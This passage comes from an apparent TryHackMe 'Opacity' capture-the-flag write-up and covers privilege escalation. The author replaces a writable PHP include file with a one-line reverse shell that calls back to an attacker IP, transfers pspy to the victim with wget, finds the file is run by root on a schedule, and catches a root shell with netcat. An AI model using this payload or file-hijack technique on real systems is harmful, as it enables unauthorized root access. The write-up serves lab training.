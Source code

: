 But as we previously saw, we had all permissions on `lib` folder. This allows us to remove or create new files on it, so we can remove `backup.inc.php` and create a new one.
Knowing that, we'll create a file which executes a php reverse shell to our attacking machine:

```php
sysadmin@opacity:~/scripts/lib$ rm -rf backup.inc.php 
sysadmin@opacity:~/scripts/lib$ echo "<?php \$sock=fsockopen(\"10.10.203.108\",5555);exec(\"/bin/sh -i <&3 >&3 2>&3\"); ?>" > backup.inc.php
sysadmin@opacity:~/scripts/lib$ cat backup.inc.php 
<?php $sock=fsockopen("10.10.203.108",5555);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

Now, we just need to confirm that `script.php` file gets executed somehow so our file gets executed as well. Checking `sysadmin`'s crontab reveals nothing, so let's dig deeper. Using `pspy` we can check for any processes running under a different user:

***Attacker***

```bash
┌──(root㉿kali)-[~/Desktop]
└─# wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
...
python -m http.server 8080
```

***Victim***

```bash
cd /tmp && wget http://10.10.203.108:8080/pspy64 && chmod +x pspy64
./pspy64
```

Yikes! We found the missing piece, `script.php` is being executed by `root`!

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-11.png)

Finding means that our changed `backup.inc.php` file should be already being executed. So all indicates that if we run a listener on port 5555 we should be getting root reverse shell due to file being run as `root` user and be able to get the flag.

Since `script.php` runs as `root`, our modified `backup.inc.php` should already be executing. Everything points to the fact that if we set up a listener on port 5555, we should receive a root reverse shell which will grant us access as `root` and hence to proof flag

*Note: After inspecting pspy output for some time it looks like runs are being made every 5 minutes. So shell would pop after that time passes by.*

```bash
┌──(root㉿kali)-[~/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.203.108] from (UNKNOWN) [10.10.92.72] 43060
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/proof.txt
a******************************e
```
